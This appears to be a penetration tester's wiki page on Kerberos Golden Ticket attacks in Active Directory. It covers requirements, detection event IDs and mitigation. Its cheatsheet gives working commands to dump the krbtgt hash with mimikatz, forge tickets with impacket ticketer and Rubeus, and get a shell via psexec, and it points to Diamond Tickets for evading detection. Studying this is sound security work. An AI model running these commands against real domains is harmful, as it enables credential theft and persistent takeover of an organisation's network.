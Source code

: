 # Golden Tickets

Golden tickets are forged Ticket Granting Tickets (TGTs) as part of Kerberos, see [[Active-Directory-Kerberos-Authentication-Defined]] and it one of many techniques of [[Attacking-Kerberos]]. It is a ticket that grants any ticket, which requires KRBTGT accounts password hash, maybe try [[Mimikatz-Cheatsheet]]. With anything Kerberos related a brief overview of PAC. The PAC (Privilege Attribute Certificate) is an extension of Kerberos protocol this is transmitted as a summary in the TGT and TGS. It specifies access of an account. Golden Tickets are a [[Pass-The-Ticket]] attack where the `krbtgt`'s key is used to encrypt the PAC as stolen as we have stolen the `krbtgt` hash and can make all the tickets we need.

#### Words of Warning

*When forging tickets, before November 2021 updates, the user-id and groups-ids were useful but the username supplied was mostly useless. As of Nov. 2021 updates, if the username supplied doesn't exist in Active Directory, the ticket gets rejected. This also applies to Silver Tickets.* - [thehackerrecipes](https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/silver)

**Review your scope and always obtain a client's permission before executing this technique - krbtgt hash changes, because of your use would cost the organisation time and money DCSync and reestablish preexist Kerberos authentication (and any after audit) that is required for the day-to-day operation. And potential make them less safe onto of that!**

#### Detection and Mitigation

[CrowdStrike](https://www.crowdstrike.com/cybersecurity-101/golden-ticket-attack/) recommends:
- 24/7 Threat Hunting
- Secure AD
- Unity detection across environment
- Focus on stopping credential theft

Filter event where Admin Logon
```powershell
# Replcae 4672 with 4624 for user account logon
# If 4769 is without a 4768 then it is inferable that the ticket was forged offline 
Get-WinEvent -FilterHashtable @{Logname='Security';ID=4672} -MaxEvents 1 | Format-List –Property
```
#### Requirements

- KRBTGT account's password hash
- domain name, domain SID, and user ID of account to be impersonated

- With KRBTGT user hash - we don't need the password hash of the account we want to impersonate, it was signed by the KRBTGT hash, this verification passes and the TGT is declared valid no matter its contents.
- KDC will only validate the user account specified in the TGT **if the account is older than 20 minutes**
	- Allowing for disabled, deleted, or non-existent account in the TGT 
- TGT no older than 20 minutes!
- TGT sets the policies and rules, Golden Tickets can overwrite the KDC 
- By default, the KRBTGT account's password never changes
	- Blue team would have to rotate the KRBTGT account password atleast twice, is an incredibly painful process for the blue team
		- Not all services are smart enough to release the TGT is no longer valid (since the timestamp is still valid) and thus won't auto-request a new TGT.
- Golden Tickets allow even bypass smart card authentication as smart cards are verified by the DC before it creates the TGT.
- Golden ticket can created non domain joined machines!

With a Golden ticket the first interaction is a TGS-REQ using the TGT (Golden Ticket), there is no prior credential submission or AS-REQ / AS-REP. The DC checks and verifies it. It is considered a important persistence method see [[AD-Persistence-Tickets]].

#### Considerations

As was mentioned with Detection and Mitigation section [thehacker.recipes](https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/golden) states *For Golden and Silver tickets, it's important to remember that, by default, [ticketer](https://github.com/SecureAuthCorp/impacket/blob/a16198c3312d8cfe25b329907b16463ea3143519/examples/ticketer.py#L740-L741) and [mimikatz](https://github.com/gentilkiwi/mimikatz/wiki/module-~-kerberos) forged tickets containing PACs that say the user belongs to some well-known administrators groups (i.e. group ids 513, 512, 520, 518, 519). There are scenarios where these groups are not enough (special machines where even Domain Admins don't have local admin rights). In these situations, testers can specify all the groups ids when creating the ticket. However, deny ACEs could actually prevent this from working. Encountering a Deny ACE preventing domain admins to log on could be an issue when having all groups ids in the ticket, including the domain admin group id. This solution can also be really inconvenient in domains that have lots of groups. Another solution to this is to look for a specific user with appropriate rights to impersonate and use [GoldenCopy](https://github.com/Dramelac/GoldenCopy) to generate a command that allows to forge a ticket with specific values corresponding to the target user (sid, group ids, etc.). The values are gathered from a [[neo4j]] database.*


#### Cheatsheet

Linux
```bash
# Find the domain SID
lookupsid.py -hashes 'LMhash:NThash' 'DOMAIN/DomainUser@DomainController' 0

# Create the golden ticket (with an RC4 key, i.e. NT hash)
ticketer.py -nthash $krbtgtNThash -domain-sid $domainSID -domain $DOMAIN randomuser

# Create the golden ticket (with an AES 128/256bits key)
ticketer.py -aesKey $krbtgtAESkey -domain-sid $domainSID -domain $DOMAIN randomuser

# Create the golden ticket (with an RC4 key, i.e. NT hash) with custom user/groups ids
ticketer.py -nthash $krbtgtNThash -domain-sid $domainSID -domain $DOMAIN -user-id $USERID -groups $GROUPID1,$GROUPID2,... randomuser


# Use ticketer to request a ticket
impacket-ticketer -nthash 25b2076cda3bfd6209161a6c78a69c1c -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain jurassic.park stegosaurus
# Export the ccache file as an evironment variable
export KRB5CCNAME=stegosaurus.ccache
# psexc in! most impacket scripts have a -k for kerberos auth only if you also provide -no-pass flag
impacket-psexec jurassic.park/stegosaurus@lab-wdc02.jurassic.park -k -no-pass
```

Windows
```c
// Extract krbtgt account password NTLM hash
mimikatz # lsadump::lsa /inject /name:krbtgt
// Create Ticket


// Mimikatz
mimikatz # kerberos::golden /domain:offense.local /sid:S-1-5-21-4172452648-1021989953-2368502130 /rc4:8584cfccd24f6a7f49ee56355d41bd30 /user:newAdmin /id:500 /ptt
// Rubeus
.\Rubeus.exe ptt /ticket:ticket.kirbi


// Cehck if ticket is created
PS> klist
```

Check the domain policy regard Kerberos
```powershell
# Beware the lifetimes
Get-DomainPolicy | select -expand KerberosPolicy
```
To bypass most of the detection mechanisms for Golden Tickets use a [[Diamond-Tickets]] instead.
## References

[THM AD Persistence Room](https://tryhackme.com/room/persistingad)
[Kerberos and Attacks 101 by Tim Medin](https://www.youtube.com/watch?v=9lOFpUA25Nk)
[Hackndo - Golden and Silver tickets](https://en.hackndo.com/kerberos-silver-golden-tickets/)
[thehacker.recipe - Golden Tickets](https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/golden)
[iredteam Golden Tickets](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-golden-tickets)
[HackTicks - Golden Tickets](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/golden-ticket)
[GoldenCopy](https://github.com/Dramelac/GoldenCopy) 
[thehacker.recipes](https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/golden) 